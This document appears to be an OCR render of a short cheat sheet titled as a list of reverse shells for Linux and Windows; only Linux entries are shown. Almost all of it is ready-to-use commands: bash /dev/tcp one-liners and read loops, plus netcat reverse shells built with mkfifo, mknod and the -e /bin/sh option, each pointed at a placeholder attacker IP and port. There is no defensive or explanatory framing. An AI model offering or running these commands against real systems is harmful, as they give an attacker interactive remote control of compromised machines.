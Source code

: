 # **A list of reverse shells for Linux and Windows**

## Bash reverse shells

exec 100<>/dev/tcp/**IP**/**Port** 

cat <&100 | while read line; do $line 2>&100 >&100; done 

Or:

while read line 0<&100; do $line 2>&100 >&100; done

A bash reverse shell one-liner:

bash -i >& /dev/tcp/**IP**/**Port** 0>&1 

## Netcat reverse shell
Without GAPING_SECURITY_HOLE (using mkfifo):

rm -f /tmp/a; mkfifo /tmp/a; nc **IP Port** 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a 

Or using mknod:

rm -f /tmp/a; mknod /tmp/a p && nc **IP Port** 0</tmp/a | /bin/bash 1>/tmp/a 

With GAPING_SECURITY_HOLE:

nc **IP Port** -e /bin/sh 
